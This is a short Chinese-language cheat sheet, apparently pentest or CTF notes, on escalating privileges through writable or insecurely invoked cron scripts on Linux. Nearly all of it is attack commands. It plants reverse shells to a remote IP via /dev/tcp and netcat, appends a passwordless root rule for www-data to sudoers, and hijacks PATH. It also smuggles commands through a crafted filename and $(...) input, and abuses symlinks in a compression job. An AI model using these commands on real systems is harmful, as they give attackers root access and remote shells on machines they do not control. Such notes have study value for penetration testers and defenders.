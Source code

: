 # 🥰 计划任务&脚本类

1. 运行的脚本&文件直接可写

```bash
1. 反弹
exho '#!/bin/bash\nbash -i >& /dev/tcp/192.168.247.129/443 0>&1\n' >> /tmp/update
chmod +x /tmp/update

2. 赋权用户
echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD: ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update
chmod +x /tmp/update
```

1. 调用脚本的运行路径是否绝对，如果不绝对

就先写一个bash脚本进脚本而后环境变量挟持

```bash
echo '#!/bin/bash\nbash -i >& /dev/tcp/192.168.247.129/443 0>&1\n' > /tmp/xxx.sh

export PATH=/tmp:$PATH
```

1. **脚本exec等执行命令中存在$path等变量**

```bash
去到$path地方，建一个；文件，而后写入命令即可，命令如下

touch '; nc 10.10.xx.xx 1338 -c bash'
```

1. 高权限脚本可以输入选项

```bash
直接输入bash尝试
```

1. 高权限py文件夹带或可输入选项

```bash
测试：10.10.10.$(echo 7)
执行：$(/tmp/d.sh)（d.sh是恶意payload）
```

1. 计划任务是压缩

如果命令完备不存在路径问题，那么可以考虑软链接的方式\
首先要在被压缩的目录中找到一个可写的目录\
find . -writable\
而后

```bash
ln -s /home/luis/ /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads/
```

‍

